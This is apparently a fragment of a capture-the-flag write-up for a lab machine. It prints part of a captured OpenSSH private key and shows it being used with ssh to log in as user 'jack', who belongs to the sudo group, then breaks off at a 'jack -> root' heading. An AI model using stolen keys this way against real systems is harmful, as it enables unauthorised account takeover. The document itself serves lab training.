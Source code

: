 ```bash
RgzfH8rpk3iF1QHT3zqjKkzlRAqO4QKGPrmFin4h8Tl+H6Pv3zcHXH3LQVJqa+TccdBgh9
cC5x7G8fv6AZD88bs3fgXBjWaexT/HJ/nRBc9rcvC7NDK/l1uaH4rxMK9/nt9DoLaS+kIT
tni4mVayFzh4j81uPXpr+MYbqDxdxP+QgOmpHkG2xgKaU4vhARvS4a9OHPRNrgkiz4mah4
lYgK3FG218VjF9jT0icw7EOMXmKhbQAAAAMBAAEAAAGACLYPP83L7uc7vOVl609hvKlJgy
FUvKBcrtgBEGq44XkXlmeVhZVJbcc4IV9Dt8OLxQBWlxecnMPufMhld0Kvz2+XSjNTXo21
1LS8bFj1iGJ2WhbXBErQ0bdkvZE3+twsUyrSL/xIL2q1DxgX7sucfnNZLNze9M2akvRabq
DL53NSKxpvqS/v1AmaygePTmmrz/mQgGTayA5Uk5sl7Mo2CAn5Dw3PV2+KfAoa3uu7ufyC
kMJuNWT6uUKR2vxoLT5pEZKlg8Qmw2HHZxa6wUlpTSRMgO+R+xEQsemUFy0vCh4TyezD3i
SlyE8yMm8gdIgYJB+FP5m4eUyGTjTE4+lhXOKgEGPcw9+MK7Li05Kbgsv/ZwuLiI8UNAhc
9vgmEfs/hoiZPX6fpG+u4L82oKJuIbxF/I2Q2YBNIP9O9qVLdxUniEUCNl3BOAk/8H6usN
9pLG5kIalMYSl6lMnfethUiUrTZzATPYT1xZzQCdJ+qagLrl7O33aez3B/OAUrYmsBAAAA
wQDB7xyKB85+On0U9Qk1jS85dNaEeSBGb7Yp4e/oQGiHquN/xBgaZzYTEO7WQtrfmZMM4s
SXT5qO0J8TBwjmkuzit3/BjrdOAs8n2Lq8J0sPcltsMnoJuZ3Svqclqi8WuttSgKPyhC4s
FQsp6ggRGCP64C8N854//KuxhTh5UXHmD7+teKGdbi9MjfDygwk+gQ33YIr2KczVgdltwW
EhA8zfl5uimjsT31lks3jwk/I8CupZGrVvXmyEzBYZBegl3W4AAADBAO19sPL8ZYYo1n2j
rghoSkgwA8kZJRy6BIyRFRUODsYBlK0ItFnriPgWSE2b3iHo7cuujCDju0yIIfF2QG87Hh
zXj1wghocEMzZ3ELIlkIDY8BtrewjC3CFyeIY3XKCY5AgzE2ygRGvEL+YFLezLqhJseV8j
3kOhQ3D6boridyK3T66YGzJsdpEvWTpbvve3FM5pIWmA5LUXyihP2F7fs2E5aDBUuLJeyi
F0YCoftLetCA/kiVtqlT0trgO8Yh+78QAAAMEAwYV0GjQs3AYNLMGccWlVFoLLPKGItynr
Xxa/j3qOBZ+HiMsXtZdpdrV26N43CmiHRue4SWG1m/Vh3zezxNymsQrp6sv96vsFjM7gAI
JJK+Ds3zu2NNNmQ82gPwc/wNM3TatS/Oe4loqHg3nDn5CEbPtgc8wkxheKARAz0SbztcJC
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

- priv esca -> jack

```
$ chmod 600 id_rsa && ssh -i id_rsa jack@10.10.11.232
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 22 01:54:17 PM UTC 2023

  System load:           0.080078125
  Usage of /:            53.4% of 5.77GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             247
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.232
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f1a8

-bash-5.1$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

### jack -> root
